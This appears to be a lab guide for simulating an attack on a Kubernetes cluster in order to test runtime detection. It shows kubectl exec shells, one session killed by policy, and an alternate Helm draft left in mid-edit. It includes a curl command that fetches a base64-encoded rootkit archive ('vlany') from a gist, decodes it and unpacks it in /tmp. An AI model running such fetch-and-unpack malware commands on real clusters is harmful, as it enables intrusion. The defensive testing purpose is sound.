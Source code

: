 # The Attack

Let's simulate an attack on our cluster.  In this example we will use `kubectl exec` to download a `tar` file, explode it and run some other nefarious commands.

First let's create a deployment.

```
$ kubectl create ns voting-app
$ kubectl apply -f manifests/ -n voting-app
$ kubectl get pods -n voting-app

```
Verify the Pod has STATUS 'Running' and READY '1/1'

```
$ kubectl get pods -n voting-app
NAME                      READY   STATUS    RESTARTS   AGE
voting-65f88748fd-mbhcc   1/1     Running   0          5m54s
```

Make a note the Pod name.


Now that the deployment is running, let's simulate the attack.  Run the following command to create a shell into the running Container

```
$ kubectl exec -it nginx-65f88748fd-mbhcc -- /bin/bash
root@nginx-65f88748fd-mbhcc:/#
```

Create a directory in the container

```
$ mkdir policy-test
root@nginx-65f88748fd-mbhcc:/# command terminated with exit code 137
$
```

<<< Or this
Let's use Helm to install a nginx container:

`helm repo add bitnami https://charts.bitnami.com
helm install --name example bitnami/nginx`

You can check that the container is running, and the name of the pod by running  
`kubectl get pod -l app=example-nginx`

Now let's play the attacker, and spawn a shell:  
`kubectl exec -it YOUR_POD_NAME -c example-nginx -- /bin/bash`  
You can get the value of `YOUR_POD_NAME` from the previous command.

You will be presented with a command prompt similar to this:  
`I have no name!@example-nginx-769dfcf684-l4m67:/app$`

You can execute a few commands inside the container, or even download some malicious file.  
`cd /tmp &&
curl https://gist.githubusercontent.com/mateobur/d888e36de12f8fe42a18f54ce4b1fc7c/raw/dd0c4cb23db7cc17a2086c5dee9338522fb8ae69/vlany | base64 -d > vlany-master.tar.gz &&
tar zxvf vlany-master.tar.gz`

Remember that the capture was configured to go on for 20 seconds after the event, so
make sure to do execute your commands within that time.
